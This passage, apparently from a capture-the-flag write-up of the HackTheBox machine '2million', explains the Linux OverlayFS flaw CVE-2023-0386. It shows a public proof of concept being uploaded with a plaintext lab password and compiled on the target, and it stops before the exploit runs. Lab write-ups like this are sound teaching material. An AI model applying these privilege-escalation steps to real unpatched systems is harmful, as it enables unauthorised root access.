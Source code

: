 ![image-20230602185030063](https://0xdf.gitlab.io/img/image-20230602185030063.png)

It’s a bit hard to figure out exactly what versions are effected. [This Ubuntu page](https://ubuntu.com/security/CVE-2023-0386) shows that it’s fixed in 5.15.0-70.77:

![image-20230602185832675](https://0xdf.gitlab.io/img/image-20230602185832675.png)

It’s not clear how that compares to 5.15.70-051570-generic. That said, this was published on 22 March 2023, and the `uname -a` string shows a compile date of 23 September 2022.

#### CVE-2023-0386 <a href="#cve-2023-0386" id="cve-2023-0386"></a>

**Background**

[This blog](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/) from Datadog does a really nice job going into the details of the exploit. The issue has to do with the overlay file system, and how files are moved between them. To exploit this, an attacker first creates a FUSE (File System in User Space) file system, and adds a binary that is owned by userid 0 in that file system and has the SetUID bit set. The error in OverlayFS allows for that file to be copied out of the FUSE FS into the main on maintaining it’s owner and SetUID.

**Exploit**

There’s a [POC for this exploit](https://github.com/xkaneiki/CVE-2023-0386) on GitHub from researcher xkaneiki. The `README.md` is sparse, but gives enough instruction for use.

I’ll download the ZIP version of the repo:

![image-20230602190651754](https://0xdf.gitlab.io/img/image-20230602190651754.png)

I’ll upload it to 2million with `scp`:

```
oxdf@hacky$ sshpass -p SuperDuperPass123 scp CVE-2023-0386-main.zip admin@2million.htb:/tmp/
```

I’ll need two shells on 2million, which is easy to do with SSH. I’ll unzip the exploit, go into the folder, and run `make all` like it says in the `README.md`:

```
admin@2million:/tmp$ unzip CVE-2023-0386-main.zip 
Archive:  CVE-2023-0386-main.zip
c4c65cefca1365c807c397e953d048506f3de195
   creating: CVE-2023-0386-main/
  inflating: CVE-2023-0386-main/Makefile  
...[snip]...
  inflating: CVE-2023-0386-main/test/mnt.c  
admin@2million:/tmp$ cd CVE-2023-0386-main/
admin@2million:/tmp/CVE-2023-0386-main$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
...[snip]..
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```
